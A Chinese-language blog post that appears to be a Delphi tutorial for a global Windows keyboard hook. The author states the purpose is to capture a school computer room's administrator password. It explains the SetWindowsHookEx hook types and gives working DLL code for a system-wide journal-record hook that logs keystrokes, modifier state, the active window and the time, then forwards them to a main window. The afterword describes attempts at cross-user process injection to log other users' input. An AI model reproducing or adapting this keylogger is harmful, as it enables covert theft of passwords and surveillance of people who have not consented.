```yaml
---
layout: post
published: true
title: 一个键盘钩子的写法，很实用
categories: delphi win32
tags: Delphi
---
```


## 0x00 前言

早就想写一个键盘监听器了，学校的电子阅览室设了Administrator屏障，想装软件什么的很麻烦，因此想截获管理员密码。。    

花了大概一个星期编写了一个，效果还不错，因此来分享一下。。
 
## 0x01 基本概念
 
 首先解释一下什么是键盘钩子：
 
 > 钩子（Hook）是Windows消息处理机制中的一个监视点，应用程序可以在这里安装一个子程序（钩子函数）以监视指定窗口某种类型的消息，所监视的窗口可以是其他进程创建的。当消息到达后，在目标窗口处理函数处理之前，钩子机制允许应用程序截获它进行处理。     
 
SetWindowsHookEx函数可以把应用程序定义的钩子函数安装到系统中：

```pascal
HHOOK SetWindowsHookEx(
    Int idHook ;       // 指定钩子的类型
    HOOKPROC lpfn;   //钩子函数的地址。如果使用的是远程钩子，钩子函数必须放在一个DLL中。
    HINSTANCE hMod; //钩子函数所在DLL的实例句柄。如果是一个局部的钩子，该参数为NULL。
    DWORD    dwThreadID; //指定要为哪个线程安装钩子。若该值为0被解释成系统范围内的。
)
```

IdHook参数指定了要安装的钩子的类型，可以是下列取值之一：

 * WH_CALLWNDPROC      当目标线程调用SendMessage函数发送消息时，钩子函数被调用。
 * WH_CALLWNDPROCRET                  当SendMessage发送的消息返回时，钩子函数被调用。
 * WH_GETMESSAGE          当目标线程调用GetMessage或者PeekMessage时。
 * WH_KEYBOARD              当从消息队列中查询WM_KEYUP或WM_KEYDOWN消息时
 * WH_MOUSE                      当调用从消息队列中查询鼠标事件消息
 * WH_MSGFILTER              当对话框，菜单或滚动条要处理一个消息时，钩子函数被调用。该钩子是局部的，它是为哪些有自己消息处理过程的控件对象设计的。
 * WH_SYSMSGFILTER       和WH_MSGFILTER一样，只不过是系统范围的。
 * WH_JOURNALRECORD 当Windows从硬件队列中获取消息时。
 * WH_JOURNALPLAYBACK      当一个事件从系统的硬件输入队列中别请求时
 * WH_SHELL                        当关于Windows外壳事件发生时，比如任务条需要重画它的按钮
 * WH_CBT                            当基于计算机的训练（CBT）事件发生时。
 * WH_FOREGROUNDIDLE Windows自己使用，一般应用程序很少使用。
 * WH_DEBUG                      用来给钩子函数除错。

 
Lpfn参数是钩子函数的地址。钩子安装后如果有消息发生，Windows将调用此参数所指向的函数。

如果dwThreadId参数是0，或者指定一个由其他进程创建的线程ID，lpfn参数指向的钩子函数必须位于一个DLL中。这是因为进程的地址空间是相互隔离的，发生事件的进程不能调用其他进程地址空间的钩子函数。如果钩子函数的实现代码在DLL中，在相关事件发生时，系统会把这个DLL插入到发生事件的进程的地址空间，使它能够调用钩子函数。这种需要将钩子函数写入DLL以便挂钩其他进程事件的钩子称为**远程钩子**。

如果dwThreadId参数指定一个由自身进程创建的线程ID，lpfn参数指向的钩子函数只要在当前进程中即可，不必非要写入DLL。这种挂钩属于自身进程事件的钩子称为局部钩子。
 
hMod参数是钩子函数所在DLL的实例句柄，如果钩子函数不再DLL中，应将hMod设置为NULL。
 
dwThreadId参数指定要与钩子函数相关联的线程ID号。如果设为0，那么钩子就是系统范围内的，即钩子函数将关联到系统内所有线程。
 
要卸载钩子，可以调用UnhookWindowsHookEx函数。
 BOOL UnhookWindowsHookEx(HHOOK hhk); // hhk 为要卸载的钩子的句柄
 
注意：安装钩子的代码可以在DLL模块中，也可以在主模块中，但是一般在DLL里实现它，主要是为了使程序更加模块化。
 
既然我们要截获的是全局的按键消息，那么就应该将钩子放在DLL中。

Windows钩子都有一个回调函数：

```c
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
         // 处理该消息的代码 …..
 
    Return ::CallNextHookEx(hHook,nCode,wParam,lParam);
}
```

HookProc是应用程序的名称。nCode参数是Hook代码，钩子函数使用这个参数来确定任务，它的值依赖于Hook的类型。wParam和lParam参数的值依赖于Hook代码，但是它们典型的值是一些关于发送或者接收消息的信息。

因为系统中可能会有多个钩子的存在，所以要调用那个CallNextHookEx函数把消息传到链中下一个钩子函数。hHook参数是安装钩子时得到的钩子句柄（SetWindowsHookEx的返回值）。
 
## 0x02 实现

有了这些知识，我们就可以开始编写：
 
首先，先创建一个DLL Wizard，为了在主程序中创建钩子，我们需要键入以下代码：

```pascal
procedure InstallHook(hwnd:THandle);stdcall;export;
begin
    hook:=SetWindowsHookEx(WH_JOURNALRECORD,HookProc,hInstance,0);//其中hook是一个HHOOK类型的全局变量，用来保存钩子句柄
    hWindow:=hwnd;//hWindow也是一个HWND类型的全局变量，用来保存主程序的窗口句柄，在后面要用到
end;
```
 
由于DLL与主程序是独立的，所以DLL截获的消息需要发送到主窗口，这里采用的是发送消息，因此要保留主窗体句柄
 
下面是卸载钩子代码：

```pascal
procedure UnInstallHook;stdcall;export;
begin
  UnhookWindowshookEx(hook);
end;
```
 
还有回调函数：

```pascal
function HookProc(iCode:longint;
         wParam:WPARAM;lParam:LPARAM):LRESULT;stdcall;
var
  msg:TEventMsg;
  keyState:TKeyState;
begin
  if iCode=HC_ACTION then
  begin
    msg:=PEventMsg(lParam)^;
    if (msg.message=WM_KEYDOWN) or (msg.message=WM_SYSKEYDOWN) then
    begin
      keystate.vKey:=LoByte(msg.paramL);//得到键的虚拟键码
      keystate.bCapsLock:=GetKeyState(VK_CAPITAL)=1;//得到CapsLock键状态
      keyState.bNumLock:=GetKeyState(VK_NUMLOCK)<>1;//得到Num Lock的状态
      keyState.bCtrl:=GetKeyState(VK_CONTROL) and $80000000=$80000000;//得到Ctrl键的状态
      keyState.bAlt:=GetKeyState(VK_MENU) and $80000000=$80000000;//得到Alt键的状态
      keyState.bShift:=GetKeyState(VK_SHIFT) and $80000000=$80000000;//得到Shift键的状态
      keystate.Sender:=GetActiveWindow;//得到当前活动的窗口句柄
      keystate.Time:=Now;//得到当前时间
      SendMessage(hWindow,WM_MYMSG,Integer(@KeyState),0);//发给主窗口，WM_MYMSG为一个自定义消息，用于区别于其他消息
    end;
    result:=0;
  end;
  if iCode<0 then
  begin
    Result:=CallNextHookEx(hook,iCode,wParam,lParam);//挂上下一个钩子
  end;
end;
```
 
其中TKeyState定义为：

```pascal
type
  TKeyState=record
               vKey:longint;
               bCapsLock,bNumLock,bShift,bCtrl,bAlt:bool;
               Sender:HWND;
               Time:TDateTime;
             end;
```

用于记录按键消息。

最后将他们输出：

```pascal
exports
  InstallHook,UnInstallHook,HookProc;
```

在主窗体Main.pas中写入：

```pascal
procedure InstallHook(hwnd:THandle);stdcall;external 'Hookdll';
procedure UnInstallHook;stdcall;external 'hookdll';//静态链接函数
```
 
然后调用时用`InstallHook(self.Handle);`就可以安装钩子了。
 
至此一个键盘监听器就写好了（详细参考CSDN资源：4428899）
 
## 0x03 后记 
 
但是，这个程序还有一点缺陷，就是不能跨用户监听，即如果一台电脑中有多个用户，则用户A的监听器监听不到用户B的按键消息。

我研究过，用户的实质是多个Desktop（即窗口工作站）同时运行（这也是虚拟桌面的工作原理）。我曾试图用CreateProcess()这个API将一个进程跨用户注入到另一个用户的空间中，虽说成功了，但一旦用户切换用户，所有的钩子都将停止，这也令我很苦恼，如果有兴趣的也可以研究一下。